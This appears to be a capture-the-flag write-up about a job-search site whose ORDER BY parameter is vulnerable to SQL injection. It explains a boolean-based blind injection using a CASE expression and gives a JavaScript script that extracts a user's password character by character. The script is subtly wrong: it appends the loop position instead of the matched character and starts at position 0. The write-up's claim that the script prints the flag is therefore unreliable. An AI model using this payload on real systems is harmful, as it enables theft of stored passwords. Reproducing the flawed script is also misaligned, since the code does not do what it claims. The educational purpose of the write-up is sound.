




## Investigation

The problem described a job searching site that listed jobs near you. They gave us the code for this problem and I've included it 
here if you wanted to try it yourself. Check it out in Local Code.

On opening up the site you're presented with this landing page:



Immediately you can see a list of jobs that they let you order by. ORDER BY is a SQL feature and I suspected SQL injection
at that point. Sure enough, once you go through the code, they just take the order specified by that dropdown and directly paste 
it into a SQL statement without any sanitization.



Searching for the flag in the code shows that it's just the password of a flagholder user.



I just need to get the password of the first user from the users table.

I thought I'd experienced all that SQL injection had to offer but this was a bit humbling. A lot of exploits I tried like a
UNION on the users table didn't work. It wasn't until I did more research that I found an article on SQL injection at the ORDER
BY part of the statement. 

You can find that article here (https://portswigger.net/support/sql-injection-in-the-query-structure). Essentially, you can't directly
add clauses like UNION after the ORDER BY. You can though change the order depending on the contents of the password of that user.

For instance, I could sort by Date if, at position 0 of that user's password, the character was the ASCII equivalent of 'H'.
Otherwise sort by Salary. I can then see the response and, if was sorted by Date, conclude that the password started with the letter 
'H'.

You can do this character by character to get the whole flag.

## Solution

I wrote a script that did exactly what I described above, character by character, and put it together. You could do this kind of thing
manually but a script will save you a lot of time and grief.

I sorted by ID if it matched my character and by title if not. That meant I could just look at the first member of response array. If
it had an ID of 1, it sorted by ID and so that character was in that position of the password. You can see my code below:

```
const apiCall = async (position, asciiCODE) => {
  let body = {
    order: `(CASE WHEN (SELECT ASCII(SUBSTRING(password,${position}, 1)) FROM users)=${asciiCODE} THEN id ELSE title END) ASC`,
  };

  const response = await fetch("http://localhost:1337/api/list", {
    method: "POST",
    mode: "cors",
    cache: "no-cache",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify(body),
  });

  const text = await response.json();
  return text;
};

const getFlag = async () => {
  let flag = "";

  for (let i = 0; i < 36; i++) {
    for (let j = 0; j < 127; j++) {
      let res = await apiCall(i,j);

      if (res[0].id === 1) {
        flag += String.fromCharCode(i)
        break;
      }
    }
  }

  console.log("flag: ", flag);
};
```

Running this outputs the flag into the console as expected.

